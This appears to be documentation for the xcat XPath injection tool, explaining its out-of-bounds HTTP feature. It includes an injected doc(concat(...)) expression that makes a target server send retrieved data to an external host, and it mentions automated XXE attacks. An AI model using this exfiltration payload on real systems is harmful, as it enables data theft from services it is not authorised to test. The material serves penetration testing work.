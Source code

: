 # Out of bounds HTTP server

The out-of-bounds (OOB) server that xcat provides is a powerful way of drastically speeding up 
retrieval.

It works by abusing the XPath `doc()` function, which is used to read arbitrary local or network 
files. Using this method xcat will instruct the service to load an XML file from it's server, passing 
any data it wishes to retrieve in the query string:

`doc(concat('http://[external-host]/data/123?d=', func.encode_for_uri(TARGET EXPRESSION)))`

This requires that:
- You have an externally routable IP that the target server can connect to
- The XPath library is configured to load external documents (many default configurations allow this)
- The port is not blocked by any firewalls

To enable this feature simply pass the `--oob` flag to any xcat command.

The `--oob` flag should in a `host:port` format, and it is up to you to find a combination that works. 
To test this combination run `xcat detect` and check that the `oob-http` feature is enabled.

This can also be used to perform automated XXE attacks, however this functionality is currently not 
fully working.

## Demo

This shows xcat connecting to a local server and using the `--oob` flag to retrieve the document much 
faster than other methods.

<script id="asciicast-216047" src="https://asciinema.org/a/216047.js" async></script>
